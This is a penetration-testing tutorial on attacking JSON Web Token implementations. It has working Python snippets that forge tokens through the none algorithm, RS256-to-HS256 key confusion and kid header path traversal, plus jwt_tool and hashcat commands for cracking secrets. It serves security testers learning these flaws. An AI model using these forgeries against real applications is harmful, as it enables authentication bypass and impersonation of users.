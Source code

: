 # Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens (JWTs) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts (header, payload, signature) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` (or `none`, `NONE`, `nOnE`) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

{% hint style="info" %}
Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.

```bash
echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
```
{% endhint %}

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

{% hint style="warning" %}
The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.
{% endhint %}

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Signature attack - KID header path traversal

The [kid](https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4) (Key ID) is an optional parameter specified in the JWT header part to indicate the key used for signature validation in case there are multiple ones.

The structure of this ID is not specified and it can be any string value (case-sensitive).

The last part is interesting because, if the parameter is vulnerable to [directory traversal](directory-traversal.md), this would allow to perform path traversal and point to a file `path/file` with content we can guess or known somehow, and use its content as the value of the signing key.

{% hint style="info" %}
"[JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)" PortSwigger lab provides more insight on this technique.
{% endhint %}

{% hint style="info" %}
> There are a bunch of files in /sys that are basically flags. Like the flag that says if ftrace is enabled is either 0 or 1. So the attacker just creates 2 tokens with that as the key and one of them will work!
>
> _(By_ [_Intigriti_](https://twitter.com/intigriti) _on_ [_Twitter_](https://twitter.com/intigriti/status/1618653959752925184)_)_

The example mentioned above is located at `/proc/sys/kernel/ftrace_enabled`
{% endhint %}

{% hint style="info" %}
In some cases, using the trick above will not work, as the file is listed with a size of 0, and some apps could check that the signature file is not empty.

```python
>>> import os
>>> os.path.getsize("/proc/sys/kernel/ftrace_enabled")
0
```

Alternatively, other file could be used:

* some have a content that rarely changes (e.g. old configuration files like`/etc/host.conf`, `/etc/xattr.conf`, ...)
* some have a predictable content (e.g. `/etc/hostname`, JS files in `/var/www/html`, ...)
* some return an empty string (e.g. `/dev/null`) effectively allowing to bypass the signature validation, meaning an empty key could be used for signature.
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```python
import jwt, os
payload = {'key1':'value1', 'key2':'value2'}
with open("path/to/file", 'r') as file:
    data = file.read()
token = jwt.encode(payload, key=data, algorithm='HS256', headers={"kid": "../../../path/to/file"})
print(token)
```
{% endcode %}

{% hint style="info" %}
If Burp is used to craft the JWT token, a symmetric key with value of the `k` property in the JWT equal to `AA==` (base64 value of null byte) must be created.

The same secret value is to be used on [jwt.io](https://jwt.io/).
{% endhint %}

### Cracking the secret

When JWT uses `HMAC-SHA256`/`384`/`512` algorithms to sign the payload, testers can try to find the secret if weak enough.

[JWT tool](https://github.com/ticarpi/jwt\_tool) (Python3) can be used for this purpose.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># crack the secret using dictionnary attack
<strong>jwt_tool.py -v -C -d $wordlist_file "$JWT_value"
</strong>
# use the secret to tapmer (-T option) the token
# running this command will show up a menu to choose the value to tamper
# the result token will be signed with the submited secret using the specified singing algorithm "alg" (hs256/hs384/hs512 = HMAC-SHA signing).
<strong>jwt_tool.py -v -S $alg -p "$secret" -T "$JWT_value"
</strong></code></pre>

JWT secrets can also be cracked using hashcat (see the [AD credential cracking](../../ad/movement/credentials/cracking.md) page for more detailed info on how to use it).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one (for algos `ES256`, `ES384`, `ES512`) or two (for algos `RS256`, `RS384`, `RS512`) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## Resources

{% embed url="https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/" %}

{% embed url="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" %}

{% embed url="https://blog.imaginea.com/stateless-authentication-using-jwt-2/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" %}

{% embed url="https://jwt.io/" %}

{% embed url="https://portswigger.net/web-security/jwt" %}

{% embed url="https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6" %}
